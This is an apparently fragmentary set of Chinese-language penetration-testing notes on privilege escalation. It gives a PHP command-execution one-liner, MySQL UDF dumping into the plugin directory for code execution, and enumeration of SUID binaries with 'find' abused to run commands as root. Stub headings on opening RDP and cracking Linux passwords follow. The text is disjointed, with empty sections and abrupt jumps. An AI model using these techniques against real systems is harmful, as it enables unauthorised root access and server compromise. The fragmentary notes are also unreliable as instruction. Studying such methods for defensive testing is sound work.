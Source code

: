    ```<?php echo `whoami`;?>```
   mysql>=5.1 lib/plugin

6. 导出到指定位置

   show variables like 'plugin%';

   SELECT udf FROM temp_udf INTO DUMPFILE "plugin_dir";
#### 远程桌面

1.打开3389端口
#### www提权

whoami 

回显：www

**SUID提权**

![image-20221204205003625.png](https://kyonk.v6.army:1443/OalkLp.png)

**nmap, find, vim, bash, more, less, nano, cp, awk, mv**

1、查找那些命令有suid

```shell
find / -user root -perm -4000 -print 2>/dev/null
```

2、发现find命令有suid，可以提权

```shell
find <filename> -exec whoami \; # 回显root
chattr -i <filename> # 修改文件为可修改
```

```
a：让文件或目录仅供附加用途。
b：不更新文件或目录的最后存取时间。
c：将文件或目录压缩后存放。
d：将文件或目录排除在倾倒操作之外。
i：不得任意更动文件或目录。
s：保密性删除文件或目录。
S：即时更新文件或目录。
u：预防意外删除。
```
### Linux 密码破解

#### 本机登陆

#### 远程登陆

方式：Telnet、VNC、SFTP、SSH-secure shell
